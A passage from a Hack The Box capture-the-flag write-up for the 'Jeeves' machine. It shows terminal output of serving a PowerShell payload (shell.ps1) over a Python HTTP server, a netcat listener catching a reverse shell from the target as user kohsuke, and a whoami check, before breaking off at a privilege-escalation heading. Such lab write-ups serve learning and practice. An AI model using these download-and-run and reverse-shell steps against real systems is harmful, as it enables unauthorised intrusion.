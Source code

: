 ![Rev shell](/assets/img/jeeves/rev.png)

We see `jeeves` grabbing the file

```sh
┌─[george@parrot]─[~/HTB/jeeves/www]
└──╼ $ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.63 - - [01/Oct/2023 04:57:50] "GET /shell.ps1 HTTP/1.1" 200 -
```
And a second later we have shell on the box as `kohsuke` who happens to be the creator of `jenkins`.

```sh
┌─[george@parrot]─[~/HTB/jeeves/www]
└──╼ $ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.10.63] 49677
Windows PowerShell running as user kohsuke on JEEVES
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator\.jenkins>
PS C:\Users\Administrator\.jenkins> whoami
jeeves\kohsuke
```
## Shell as NT AUTHORITY\SYSTEM
### Enumeration
